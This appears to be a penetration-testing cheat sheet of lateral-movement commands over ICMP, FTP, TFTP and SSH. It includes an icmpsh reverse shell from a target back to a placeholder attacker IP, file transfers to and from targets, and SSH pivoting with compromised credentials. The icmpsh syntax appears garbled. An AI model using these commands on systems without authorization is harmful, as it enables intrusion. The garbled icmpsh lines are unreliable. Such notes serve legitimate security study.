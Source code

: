 # Lateral Movement via Standard Protocols

#### ICMP
- **Using `icmpsh` Server (attacker):**
	```bash
	icmpsh -t <target_ip> -d <attack_ip>
	```
- **Using `icmpsh` Client (target):**
	```bash
	icmpsh-m -t <attack_ip> -c <command>
	```

#### FTP 
- **FTP Connection:**
	```bash
	ftp <target_ip>
	```
- **FTP Pivoting via SSH:**
	```bash
	ssh -L <local_port>:<target_ip>:21 <username>@<pivot_host>
	```

#### TFTP (Trivial File Transfer Protocol)
- **Download a File from a TFTP Server:**
	```bash
	tftp <target_ip> tftp> get remote_file
	```
- **Upload a File to a TFTP Server:**
	```bash
	tftp <target_ip> tftp> put local_file
	```

#### SSH
- **SSH Tunneling (Dynamic Port Forwarding - SOCKS Proxy):** Set up a SOCKS proxy on the local machine that forwards all traffic through the SSH connection to the target machine. Useful for browsing internal networks.
	```bash
	ssh -D <local_port> <username>@<pivot_ip>
	```
- **SSH Tunneling (Local Port Forwarding):** Forward traffic from a local port to a remote service on the target machine. Useful for accessing services hidden behind a firewall
	```bash
	ssh -L <local_port>:<remote_ip>:<remote_port> <username>@<pivot_ip>
	```
- **SSH Tunneling (Remote Port Forwarding):** Expose a local service (on the attacker's machine) to the target's network.
	```bash
	ssh -R <remote_port>:<local_ip>:<local_port> <username>@<pivot_ip>
	```
- **SSH Pivoting Using ProxyJump:** Jump through an intermediary system to reach the target host, leveraging compromised SSH credentials
	```bash
	ssh -J <pivot_ip> <username>@<target_ip>
	```
- **SSH Pivoting with ProxyChains:**
	```bash
	proxychains ssh <username>@<target_ip>
	```
- **Enable X11 Forwarding Over SSH:**
	```bash
	ssh -X <username>@<target_ip>
	```